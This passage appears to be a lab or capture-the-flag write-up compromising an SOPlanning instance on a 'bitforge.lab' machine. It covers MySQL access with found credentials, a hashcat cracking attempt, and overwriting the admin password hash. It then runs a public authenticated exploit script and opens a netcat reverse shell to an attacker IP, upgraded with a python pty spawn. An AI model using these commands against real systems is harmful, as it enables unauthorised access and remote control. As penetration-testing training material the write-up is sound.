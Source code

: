 ![image.png](image%205.png)

Nothing interesting found in others.

I connected to the database using these credentials:

```bash
mysql -u BitForgeAdmin -h $IP -p --ssl=0
```

Found that bitforge_customer_db database is empty, so I checked `soplanning` and found SHA1 hash of admin user. I tried cracking it using hashcat and 100 mode but couldn’t crack it.

```bash
hashcat -m 100 admin.hash /usr/share/wordlists/rockyou.txt
```

That’s why I thought of changing password here using MySQL `UPDATE` clause:

```bash
UPDATE planning_user SET password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' where login='admin';
```

![image.png](image%206.png)

But still I couldn’t login, maybe application has its own hashing method rather than hashing password directly to SHA1, that’s why I decided to change the hash to original default one that comes with soplanning application in that case we will remove probability of hash format being wrong.

I found database default hash here [soplanning/includes/demo_data.inc](https://github.com/Worteks/soplanning/blob/master/includes/demo_data.inc)

Then changed it database:

```bash
UPDATE planning_user SET password='df5b909019c9b1659e86e0d6bf8da81d6fa3499e' where login='admin';
```

After that I entered `admin`:`admin`, and get in. Previous is confirmed also with the way that I tried to crack this hash but Hashcat exhausted with `rockyou.txt`.

I tried to execute the exploit but it failed then I noticed that it tried to access `/process/upload.php` page which does not exist on main page but rather under `www`.

```bash
python3 52082.py -t http://plan.bitforge.lab/www -u admin -p admin
```

![image.png](image%207.png)

Now we are in.

let’s get a shell using netcat and then make it interactive with python.

```bash
busybox nc 192.168.45.159 80 -e /bin/bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](image%208.png)
